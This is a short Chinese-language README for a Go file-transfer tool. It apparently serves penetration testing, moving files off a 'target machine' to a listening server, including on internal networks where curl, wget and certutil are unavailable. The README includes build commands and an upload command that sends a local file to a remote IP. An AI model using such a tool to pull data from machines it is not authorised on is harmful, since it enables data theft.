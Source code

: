 # upload
copyright by https://github.com/dear-cell/upload

## 使用场景
1. 在目标机器可以出网的情况下可以通过exe上传目标文件到服务器。
2. 在内网不出网的情况下，没有curl,wget命令,certutil不支持不安全的ssl证书下载。


## 使用教程

### 编译:

```cmd
go build -o server.exe load.go

go build -o upload.exe upload.go
```

当然如果服务器是linux也可以编译成二进制文件

```cmd
set GOOS=linux

set GOARCH=amd64
```

### 运行

server是服务端用来接收文件的

```
server.exe -p 9090
```

upload是用来上传文件的

```
upload.exe -u C:\Users\Desktop\1.txt -i 192.168.1.100 -p 9090
```

